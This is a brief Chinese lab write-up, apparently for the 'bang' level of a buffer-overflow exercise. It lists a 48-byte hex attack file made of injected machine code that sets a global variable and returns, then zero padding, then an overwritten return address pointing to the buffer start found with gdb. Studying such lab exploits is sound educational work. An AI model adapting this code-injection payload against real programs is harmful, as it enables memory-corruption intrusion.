

# level2:bang
所以构造攻击文件
bang_U202031233061.txt 如下：
c7 05 00 d1
04 08 9b 98
43 39 68 c5
8b 04 08 c3
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
98 2e 68 55
总共48个字节，前16个字节，抄自 attack.txt，最后四个字节，是 gdb 调试出的缓冲区首地址。